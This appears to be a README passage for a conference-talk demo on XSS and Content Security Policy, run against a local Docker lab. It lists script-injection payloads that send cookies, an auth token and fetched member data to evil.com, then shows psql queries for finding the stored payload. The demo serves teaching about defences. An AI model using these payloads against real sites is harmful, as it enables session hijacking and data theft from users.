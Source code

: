 ### 2. Cookie Theft (`payloads/1-cookie-theft.js`):
```javascript
<script>fetch('https://evil.com/steal?cookies='+document.cookie);</script>
```

### 3. Session Hijacking (`payloads/2-session-hijacking.js`):
```javascript
<script>window.location='https://evil.com/admin?token='+localStorage.getItem('authToken');</script>
```

### 4. Data Exfiltration (`payloads/3-data-exfiltration.js`):
```javascript
<script>fetch('/api/members').then(r=>r.json()).then(d=>fetch('https://evil.com/data',{method:'POST',body:JSON.stringify(d)}));</script>
```

### 5. **Dramatic Hacker Takeover** (`payloads/4-hacker-takeover.js`):
*For maximum impact during your lightning talk - this creates an immediate hostile takeover showing exactly what attackers steal. Copy the full script from the file.*

**Recommended for Demo:** Use `payloads/4-hacker-takeover.js` for your lightning talk as it provides the most visual impact with realistic attack simulation.

## 🗃️ Database Inspection (Optional Demo Enhancement)

To show your audience how the XSS payload is stored in the database, you can connect to PostgreSQL and inspect the data:

### Connect to the Database:
```bash
# Connect to the running PostgreSQL container
docker exec -it security-ai-csp-headers-lightning-talk-postgres-1 psql -U postgres -d xss_demo

# Or if containers aren't running, start a temporary connection:
docker run --rm -it --network security-ai-csp-headers-lightning-talk_default postgres:15-alpine psql -h postgres -U postgres -d xss_demo
```

### View All Member Requests:
```sql
-- See all stored requests
SELECT id, client_name, email, additional_details, created_at 
FROM olr_requests 
ORDER BY created_at DESC;
```

### View Just the Malicious Payload:
```sql
-- Show only the XSS payload in the dietary requirements
SELECT client_name, 
       LEFT(additional_details, 50) || '...' as payload_preview,
       LENGTH(additional_details) as payload_length,
       created_at
FROM olr_requests 
WHERE additional_details LIKE '%<script>%'
ORDER BY created_at DESC;
```
